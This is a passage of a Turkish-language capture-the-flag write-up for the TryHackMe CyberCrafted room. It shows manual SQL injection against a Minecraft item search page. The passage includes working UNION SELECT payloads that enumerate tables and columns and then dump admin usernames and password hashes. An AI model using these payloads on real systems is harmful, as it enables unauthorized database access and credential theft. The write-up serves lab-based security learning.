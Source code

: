 search.php sayfasına bakalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a3.png?raw=true)

Siteye eriştiğimizde minecraft item arama sayfası olduğunu görüyoruz.

SQL enjeksiyonu işe yarayabilir.

Bundan sonraki kısımları önce manuel sonra diğer bir yöntem olan sqlmap ile anlatacağım.


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a4.png?raw=true)

Gördüğümüz gibi, arama terimi listelenen kelimelerin hiçbirini içermeden liste tüm öğeleri gösteriyor ve ayrıca herhangi bir uyarı veya uyarı da göstermiyor.

Artık SQL enjeksiyonuna karşı savunmasız olduğunu biliyoruz, yönetici adını görmek için kullanabiliriz.

Bu sayfayı SQL”UNION” sorgularıyla kötüye kullanabiliriz. Bilmemiz gereken ilk şey, orijinal SQL sorgusunun aldığı alanların sayısıdır; aşağıdaki kod parçası bize bu konuda yardımcı olabilir:

```
' UNION SELECT 1, ..., n #
```
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a5.png?raw=true)

```
asdf' UNION SELECT 1, 2, 3, table_name FROM information_schema.tables WHERE table_schema = 'webapp' #
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a6.png?raw=true)

Listelenen tablolardan bize ilgili bilgileri verebilecek olanı, bu durumda yöneticinin adını içerebilecek olanı seçmeliyiz. Daha sonra bu tablonun sütunlarına bakmak isteriz. Sorgu sonuncuya çok benzer, veritabanı şemasından sağlanan tabloya ait olan sütunları seçin.

```
asdf' UNION SELECT 1, 2, 3, column_name FROM information_schema.columns WHERE table_name = 'admin' #
```
![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a7.png?raw=true)

Veritabanının yapısı hakkında daha fazla bilgiye sahibiz.

Son SQL sorgularının amacı veritabanının yapısı hakkında ayrıntılı bilgi almaktı, bu şekilde herhangi bir tablodan bazı verileri sorgulayabiliriz.

Bunu akılda tutarak, size daha fazla bilgi verebilecek olanları seçin; yöneticinin adını, şifresini ve mümkünse herhangi bir işareti almak istediğimizi unutmayın:

```
user:hash ' union select 1,2,3,group_concat(user,0x3a,hash) from admin-- - 
```


![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/CyberCrafted/images/a8.png?raw=true)
